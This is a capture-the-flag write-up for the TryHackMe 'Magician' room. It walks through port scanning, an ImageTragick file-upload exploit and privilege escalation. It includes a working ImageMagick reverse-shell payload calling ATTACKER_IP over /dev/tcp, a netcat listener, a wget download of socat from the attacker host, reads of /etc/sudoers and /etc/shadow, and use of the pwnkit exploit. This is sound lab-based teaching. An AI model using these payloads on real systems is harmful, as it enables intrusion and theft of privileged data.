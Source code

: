 ```yaml
---
layout: post
title:  "Magician Writeup"
date:   2024-05-22 13:15:45 -0400
categories: tryhackme easy
tags: writeup tryhackme easy CTF
---
```

## Introduction
This is an easy challenge box on
[TryHackMe](https://tryhackme.com/r/room/magician){:target="_blank"}{:rel="noopener noreferrer"}
. Takes about 7 minutes to boot up

> This is what a hint will look like
{: .prompt-tip}

## Enumeration
### Hosts
There's a note by the author that we need to add the 
following to our `/etc/hosts` file

`VICTIM_IP magician`

### Ports
Let's start with a scan to see open ports and services
```bash
rustscan -a VICTIM_IP -- -A -os scan -sC
```

![scan1](/images/magician/magician-scan1.png)

![scan2](/images/magician/magician-scan2.png)

We have three ports to take note of
- 21: FTP
- 8080: HTTP
- 8081: HTTP

### File Upload Service
Let's upload a test file and see what we can find

![test-upload](/images/magician/magician-test-upload.png)

Seems like converted files are sent to the `/files` 
directory on port 8080, the other open web port

![file-dir](/images/magician/magician-8080-files.png)

Unfortunately we can't view the uploaded file.
Clicking the link download the file so we need to find
another avenue

### FTP
> Do you need credentials to access ftp?
> The box isn't hanging, just be patient
{: .prompt-tip}

Let's try to login to ftp with 
`anonymous:anonymous` credentials

```bash
ftp VICTIM_IP 21
```
![ftp](/images/magician/magician-ftp-hint.png)

We're given a hint to check out 
[ImageTragick](https://imagetragick.com/){:target="_blank"}{:rel="noopener noreferrer"}
. Older versions of ImageMagick, an image processing 
library, are vulnerable to RCE! Let's take advantage 
of this to get a shell

## Initial Foothold
> Inspect public payloads to get the proper format
{: .prompt-tip}

### Exploit Crafting
For reference, I used 
[Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Picture%20ImageMagick){:target="_blank"}{:rel="noopener noreferrer"}
and modified the ImageMagick exploit

Write the following into a file named `revshell.png` replacing
`ATTACKER_IP` with your ip

```bash
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/test.jpg"|0<&196;exec 196<>/dev/tcp/ATTACKER_IP/4444; /bin/bash <&196 >&196 2>&196")'
pop graphic-context
```

### Magician Shell
Set a listener on your machine to catch the reverse shell

```bash
nc -lvnp 4444
```

Now we upload `revshell.png` and wait

![revshell](/images/magician/magician-revshell.png)

We're in!!! Since `python` is available we can stabilize
and improve the reverse shell

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
# hit ctrl+z to background the process
stty raw -echo && fg
export SHELL=/bin/bash
export TERM=screen
```

Now we have colored output, tab completion, and can clear
the screen

![improved-shell](/images/magician/magician-upgraded-shell.png)

Let's investigate the home directory and see what
we can find

![listen-hint](/images/magician/magician-listen-hint.png)

> What local ports are listening?
{: .prompt-tip}

We can list listening ports with

```bash
ss -tunlp
```

![listen-cmd](/images/magician/magician-listening-ports.png)

### linpeas
While this isn't necessary, running a privilege escalation
script can reveal interesting information

![linpeas-ports](/images/magician/magician-linpeas-ports.png)

> Which port wasn't seen in our initial scan?
{: .prompt-tip}

![linpeas-6666](/images/magician/magician-linpeas-6666.png)

This tells us which port is open, as well as what's running 
on this port. 
[Gunicorn](https://gunicorn.org/){:target="_blank"}{:rel="noopener noreferrer"}
is an http server for Unix. We can confirm an http server 
is working by sending a request

```bash
curl localhost:6666
```

![curl-6666](/images/magician/magician-curl-6666.png)

## root.txt
> How can we access internal ports from outside 
> the internal network?
{: .prompt-tip}

If we forward this port we can access this service in  our 
browser. To achieve this we'll be using a
[socat static binary](https://github.com/andrew-d/static-binaries/tree/master/binaries/linux/x86_64){:target="_blank"}{:rel="noopener noreferrer"}

```bash
# host, in directory with socat binary
python3 -m http.server 80

# victim
wget http://ATTACKER_IP/socat
chmod +x socat
./socat TCP-LISTEN:9999,fork TCP:127.0.0.1:6666
```

Now we can access the internal webserver by accessing

`http://magician:9999`

![port-forward-home](/images/magician/magician-port-forward-page.png)

It's asking us to input a file name. We know from linpeas 
that this process is running as root so let's try a file 
only root has access to. I'm going to use `/etc/sudoers` but 
you could also use `/etc/shadow` or `/root/root.txt`

![sudoers-bin](/images/magician/magician-sudoers-binary.png)

![sudoers-hex](/images/magician/magician-sudoers-hex.png)

![sudoers-b64](/images/magician/magician-sudoers-b64.png)

![sudoers-rot13](/images/magician/magician-sudoers-rot13.png)

The file we want to read will be given to us, but it will 
be in one of four formats: 
- binary 
- hex
- base64
- rot13

Thankfully these are all easy enough to decode with 
[cyberchef](https://cyberchef.org/){:target="_blank"}{:rel="noopener noreferrer"},
so now we're able to read `root.txt`!

## Alternative root.txt
> What does the source returned by port 6666 do?
{: .prompt-tip}

If you don't want to port forward and can understand HTML and JS, 
you could always do things locally! By reading the source 
returned from `curl`, we see it's sending a post request with the 
variable `filename`. Let's emulate this with `curl`

```bash
curl localhost:6666 -d "filename=/etc/sudoers"
```

![curl-binary](/images/magician/magician-curl-binary.png)

We get the same thing!

## Root Shell
While this isn't the intended route, this box is still 
vulnerable to 
[pwnkit](https://github.com/joeammond/CVE-2021-4034){:target="_blank"}{:rel="noopener noreferrer"}
which is a local privilege escalation exploit. If you want to 
explore the box further upload the python script and run it

```bash
python3 CVE-2021-4034.py
# source for randomly encoding a file
cat /root/flask/magiccat.py
```

![magiccat](/images/magician/magician-root-magiccat.png)

## Recap
A web services converts user uploaded png files to jpg. 
An ftp hint directs the user to exploiting ImageMagick 
with [ImageTragick](https://imagetragick.com/){:target="_blank"}{:rel="noopener noreferrer"}.
Using 
[Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Picture%20ImageMagick){:target="_blank"}{:rel="noopener noreferrer"}
as a template,
a reverse shell payload can be crafted. Another hint points 
towards investigating listening ports. Using curl or port 
forwarding we have access to a privileged file read.
